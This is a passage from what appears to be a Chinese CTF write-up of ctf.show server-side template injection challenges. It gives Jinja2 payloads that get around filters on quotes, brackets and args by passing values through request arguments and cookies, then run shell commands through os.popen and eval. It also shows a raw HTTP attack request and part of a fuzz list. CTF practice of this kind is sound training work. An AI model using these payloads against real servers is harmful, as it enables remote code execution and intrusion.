 payload：

```
//request绕过
?name={{ config.__class__.__init__.__globals__[request.args.a].popen(request.args.b).read() }}&a=os&b=cat ../flag

//chr字符串拼接
?name={{x.__init__.__globals__[request.args.a].eval(request.args.b)}}&a=__builtins__&b=__import__('os').popen('cat /flag').read()
```

### [web364]过滤args 

用其他方式传参

payload:

```
?name={{x.__init__.__globals__[request.cookies.x1].eval(request.cookies.x2)}}

Cookie传参:x1=__builtins__;x2=__import__('os').popen('cat /flag').read()
```

发包：

```http
   GET /?name={{x.__init__.__globals__[request.cookies.x1].eval(request.cookies.x2)}} HTTP/1.1
Host: 21384bce-894b-46a7-9265-8b1cba126448.challenge.ctf.show
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Cookie: x1=__builtins__;x2=__import__('os').popen('cat /flag').read()
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```

### [web365]过滤''、""、[、args

跑fuzzy字典，发现四个过滤：

```
//ssti-fuzz.txt
.
[
]
_
{
}
{{
}}
{百分号
%}
{%if
{%endif
{%print(
1
2
3
4
5
6
7
8
```